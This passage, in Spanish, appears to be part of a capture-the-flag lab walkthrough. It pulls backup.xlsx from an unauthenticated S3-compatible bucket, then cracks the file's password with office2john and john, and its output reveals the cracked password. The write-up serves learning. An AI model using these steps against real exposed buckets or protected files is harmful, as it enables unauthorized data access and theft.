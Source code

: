 ```shell
aws --no-sign-request --endpoint-url http://<IP>:9000 s3 cp s3://huguelogistics-data/backup.xlsx .
```

Info:

```
download: s3://huguelogistics-data/backup.xlsx to ./backup.xlsx
```

Veremos que ha funcionado, por lo que vamos a intentar leer el archivo `.xlsx`, pero antes para leerlo instalaremos las herramientas necesarias en `kali`.

```shell
sudo apt update
sudo apt install --reinstall libreoffice
```

Una vez echo esto, si intentamos abrir el archivo veremos lo siguiente:

```shell
libreoffice backup.xlsx
```

Info:

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Veremos que tiene contraseña, por lo que vamos a intentar `crackerla` con `john`.

### Crackeo XLSX

```shell
office2john backup.xlsx > hash.xlsx
```

Ahora con dicho `hash` probaremos a `crackeralo` para extraer la contraseña.

```shell
john --wordlist=<WORDLIST> hash.xlsx
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 128/128 AVX 4x / SHA512 128/128 AVX 2x AES])
Cost 1 (MS Office version) is 2007 for all loaded hashes
Cost 2 (iteration count) is 50000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password88       (backup.xlsx)     
1g 0:00:00:05 DONE (2025-05-09 05:25) 0.1814g/s 3095p/s 3095c/s 3095C/s princez..mia305
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
